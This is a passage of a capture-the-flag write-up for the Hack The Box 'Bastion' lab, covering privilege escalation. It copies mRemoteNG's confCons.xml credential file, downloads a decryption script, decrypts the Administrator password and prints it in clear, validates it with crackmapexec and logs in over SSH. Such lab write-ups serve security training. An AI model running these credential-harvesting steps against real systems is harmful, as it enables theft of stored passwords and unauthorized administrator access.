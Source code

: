 # 15 - PrivEsc



# mRemoteNG is a unique program in htb environment
![](vx_images/1425100716600.png)

# mRemoteNG stores passwords
![](vx_images/5206823505692.png)

Please ignore the first two links because they came out after this box was released.


# Password file location
![](vx_images/3015049831443.png)


Download the mRemoteNG decrypt script [here](https://github.com/haseebT/mRemoteNG-Decrypt) and confCons file.
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion]
└──╼ $ scp L4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
L4mpje@10.10.10.134\'s password
confCons.xml

┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion]
└──╼ $ wget https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
 --2021-08-06 11:25:45--  https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1535 (1.5K) [text/plain]
Saving to: ‘mremoteng_decrypt.py’
mremoteng_decrypt.py                            100%[=====================================================================================================>]   1.50K
--.-KB/s    in 0s
2021-08-06 11:25:47 (31.7 MB/s) - ‘mremoteng_decrypt.py’ saved [1535/1535]
```


# Grab the administrator's password and decrypt it
![](vx_images/4966414779847.png)


# Credential check
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion/ntfs2]
└──╼ $ cme smb 10.10.10.134 -u Administrator -p 'thXLHM96BeKL0ER2'
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\Administrator:thXLHM96BeKL0ER2 (Pwn3d!)
```

Credentials are valid.

# SSH
```powershell
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion/ntfs2]
└──╼ $ ssh -l Administrator 10.10.10.134
Administrator@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
administrator@BASTION C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
PS C:\Users\Administrator>
```